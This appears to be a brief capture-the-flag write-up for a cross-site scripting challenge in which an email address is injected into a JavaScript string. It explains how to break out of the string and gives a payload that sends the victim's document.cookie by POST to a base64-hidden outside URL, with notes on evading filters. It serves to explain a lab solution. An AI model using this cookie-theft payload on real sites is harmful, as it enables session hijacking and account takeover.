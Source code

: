 # 22-final xss
## author: melon

* the email is injected directly into a `.js` file which is loaded through `<script src="<email>.js">`
* it's injected directly into javascript context, in a string, so you can do `'-alert(1)-'` to get xss
* it's a bit harder to get the cookie, as the content is loaded through a script tag's src
    * this breaks comments, hence you can't do `'; fetch(...) //`
    * it also breaks using `https://` in your `fetch` url, so use `fetch(atob('...'))`
    * it also breaks using cookies as easily (maybe?) but you can do a post request

> ```
> '-fetch(atob(`<base64 url>`),{method:`POST`,body:document.cookie})-'
> ```